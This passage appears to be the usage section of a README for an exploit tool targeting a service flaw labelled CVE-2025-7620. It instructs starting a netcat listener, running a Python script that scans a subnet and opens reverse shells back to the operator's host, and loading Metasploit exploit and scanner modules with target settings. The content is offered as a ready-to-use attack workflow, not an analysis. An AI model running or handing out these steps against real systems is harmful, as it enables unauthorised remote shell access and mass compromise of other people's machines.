 
## ✨ Usage

### 1️⃣ Start your listener:
```bash
nc -lvnp 4444
```

### 2️⃣ Run:
```bash
python3 cve_2025_7620_yuri08.py --subnet 192.168.56.0 --lhost 192.168.56.1
```

### Options:
- `--subnet`: Subnet to scan.
- `--lhost`: Your IP to receive the shell.
- `--lport`: Port for shell (default: 4444).
- `--threads`: Number of threads (default: 50).
- `--timeout`: Banner grab timeout (default: 2).
- `--port`: Service port (default: 5555).

---

## 🪐 Metasploit Modules

Includes Metasploit modules for optional use:

- `cve_2025_7620_msfmodule.rb`: Exploit module.
- `cve_2025_7620_msfscanner.rb`: Auxiliary scanner.

### Usage:
```
~/.msf4/modules/exploits/linux/xyzsvc/cve_2025_7620.rb
~/.msf4/modules/auxiliary/scanner/xyzsvc/cve_2025_7620_scanner.rb
```

In `msfconsole`:
```
use auxiliary/scanner/xyzsvc/cve_2025_7620_scanner
set RHOSTS 192.168.56.0/24
run
```

Then exploit:
```
use exploit/linux/xyzsvc/cve_2025_7620
set RHOSTS <target>
set LHOST <your_ip>
set LPORT <your_port>
run
```

---
